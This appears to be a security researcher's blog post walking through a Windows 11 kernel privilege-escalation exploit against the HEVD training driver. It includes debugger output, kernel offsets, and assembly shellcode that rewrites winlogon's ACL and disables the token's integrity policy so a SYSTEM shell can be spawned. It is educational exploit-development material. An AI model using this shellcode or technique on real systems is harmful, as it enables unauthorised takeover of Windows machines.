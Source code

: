 ```yaml
---
layout: post
title: "kernel_shellcode_acl_edit"
date: 2024-11-14 21:00:00 -0000
categories: windows kernel exploitation hevd shellcode blog
---
```


# Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit

## Introduction

This post revisits the classic stack buffer overflow technique demonstrated in [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2) using HackSys Extreme Vulnerable Driver (HEVD), but updated for Windows 11. It makes use of the stack buffer overflow to modify the ACL of the winlogon process, and then spawns an elevated command prompt by injecting shellcode into the winlogon process.

## Background

The original technique involves changing the ACE of the SYSTEM entry, for the winlogon process, so that its SID matches that of the Authenticated Users group. In addition, the current process token mandatory integrity policy is changed to `TOKEN_MANDATORY_POLICY_OFF`. This is to allow the current process to get a handle to the winlogon process and create a remote thread to spawn an elevated command prompt.

The mandatory policies can be found at https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy.

In what follows, this post will demonstrate the technique on Windows 11, version 23H2, along with full exploit code, from triggering the overflow to spawning the elevated command prompt. SMEP/KPTI are disabled.

```bash
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22631 N/A Build 22631
OS Manufacturer:           Microsoft Corporation
```

## Technical Implementation 

The exploit follows these steps:

1. Obtain handle to the vulnerable driver
2. Trigger buffer overflow to execute kernel shellcode
2. Craft shellcode that:
   - Locates winlogon process in kernel memory
   - Modifies ACL entries to grant access to the Authenticated Users group
4. Inject shellcode into winlogon process to spawn elevated command prompt

The initial HEVD exploitation is well documented and triggering the buffer overflow can be found in many other posts.

The original blog post analysis still holds on Windows 11.

The security descriptor of the winlogon process can still be found at the same offsets,

```bash
0: kd> !process 0 0 winlogon.exe
PROCESS ffffe481acef1080
    SessionId: 1  Cid: 02d8    Peb: 7bab37d000  ParentCid: 026c
    DirBase: 10da60000  ObjectTable: ffff8081a273d080  HandleCount: 280.
    Image: winlogon.exe
```

And getting the security descriptor offset from the object header at EPROCESS-0x30,

```bash
0: kd> dt nt!_OBJECT_HEADER ffffe481acef1080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffff8081`9fc5adaf Void
```

The security descriptor is found at EPROCESS-0x30+0x28 but its lower 4 bits are a fast reference, so they must be masked off,

```bash
0: kd> !sd 0xffff8081`9fc5ada0
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-18

->Dacl    : ->Ace[1]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[1]: ->AceFlags: 0x0
->Dacl    : ->Ace[1]: ->AceSize: 0x18
->Dacl    : ->Ace[1]: ->Mask : 0x00121411
->Dacl    : ->Ace[1]: ->SID: S-1-5-32-544

->Sacl    : 
->Sacl    : ->AclRevision: 0x2
->Sacl    : ->Sbz1       : 0x0
->Sacl    : ->AclSize    : 0x1c
->Sacl    : ->AceCount   : 0x1
->Sacl    : ->Sbz2       : 0x0
->Sacl    : ->Ace[0]: ->AceType: SYSTEM_MANDATORY_LABEL_ACE_TYPE
->Sacl    : ->Ace[0]: ->AceFlags: 0x0
->Sacl    : ->Ace[0]: ->AceSize: 0x14
->Sacl    : ->Ace[0]: ->Mask : 0x00000003
->Sacl    : ->Ace[0]: ->SID: S-1-16-16384
```

The ACEs are found at the same offsets as well. The remaining analysis of the mandatory integrity policy is the same as the original blog post.

## Code Walkthrough

The full exploit code can be found in [src/main.rs](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/src/main.rs).

The ACL edit shellcode can be found in [acl_edit.asm](https://github.com/glslang/win-kexp/blob/main/src/asm/acl_edit.asm).

The updated offsets used in the shellcode are,

```bash
KTHREAD_OFFSET        EQU 188h    ; Offset to current KTHREAD from GS
EPROCESS_OFFSET       EQU 0B8h    ; Offset to EPROCESS from KTHREAD
ACTIVEPROCESSLINKS    EQU 448h    ; Offset to ActiveProcessLinks
IMAGEFILENAME_OFFSET  EQU 5A8h    ; Offset to ImageFileName
TOKEN_OFFSET          EQU 4b8h    ; Offset to process token
```

Then it proceeds to find the winlogon process,

```
    mov rax,gs:[rax+KTHREAD_OFFSET]    ; Get current KTHREAD
    mov rax,[rax+EPROCESS_OFFSET]      ; Get current EPROCESS
    mov rcx,rax
__loop:
    mov rax,[rax+ACTIVEPROCESSLINKS]                        ; Get next process
    sub rax,ACTIVEPROCESSLINKS                              ; Adjust to get EPROCESS base
    cmp dword ptr [rax+IMAGEFILENAME_OFFSET],6c6e6977h      ; Compare ImageFileName
    jnz __loopbash
```

RAX now points to the winlogon process EPROCESS, and RCX contains the current EPROCESS.

```bash
    sub rax,30h
    add rax,28h
```

The offset to the object header is found by subtracting 0x30 and then the security descriptor is found by adding 0x28 from the EPROCESS base. The two instructions are for clarity of the explanation.

The next step is to modify the ACL entries,

``` bash
    mov rax, qword ptr [rax]
    and rax,0FFFFFFFFFFFFFFF0h
    add rax,48h
    mov byte ptr [rax],0bh
```

RAX is dereferenced and the security descriptor is masked off. Adding 0x48 to the address gets to the first ACE and the byte at that location is modified to 11 (0x0B), which is the 18 (0x12) for the SYSTEM ACE.

The remaining shellcode is for setting the mandatory integrity policy,

``` bash
    mov rdx, qword ptr [rcx+TOKEN_OFFSET]
    and rdx,0FFFFFFFFFFFFFFF0h
    add rdx,0d4h
    mov byte ptr [rdx],0
```

RDX is set to the token address and masked off. Adding 0xd4 to the address gets to the mandatory integrity policy and the byte at that location is modified to 0, which is the `TOKEN_MANDATORY_POLICY_OFF` value.

The shellcode also contains an epilogue to restore the original stack and registers to safely return to the caller.

The remaining exploit code is for injecting the shellcode into the winlogon process and spawning the elevated command prompt. The injection is a standard injection. The handle to the victim process is returned, memory for the shellcode is allocated and written to the user space of the victim process, and then a remote thread is created to execute the shellcode.

These steps can be found at https://github.com/glslang/win-kexp/blob/main/src/process.rs#L112.

Executing the exploit code and our elevated command prompt can be found below,

![Launching the elevated command prompt](https://github.com/glslang/glslang.github.io/tree/main/_posts/img/acl_edit_system.png)

## Conclusion

This post revisits the ACL edit technique on Windows 11 and demonstrates the technique with full exploit code, with the expectation that the source code can be used to understand the technique and to better follow along with the original blog post.

## References

- https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2
- https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
- https://github.com/glslang/win-kexp
